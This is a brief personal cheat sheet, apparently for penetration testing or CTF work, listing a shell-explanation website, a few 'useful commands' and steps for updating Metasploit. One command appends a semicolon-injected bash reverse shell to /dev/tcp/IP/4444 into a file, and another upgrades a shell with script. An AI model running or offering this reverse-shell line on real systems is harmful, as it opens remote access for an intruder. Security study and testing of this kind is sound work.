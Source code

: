 - Useful website:

https://explainshell.com/


- Uesful commands:

echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/IP/4444 0>&1' #" >> filename

SHELL=/bin/bash script -q /dev/null


- How to update metasploit-framework

sudo apt update
sudo apt install metasploit-framework 
sudo apt install gem
sudo gem install bundler
sudo msfdb reinit
sudo msfconsole
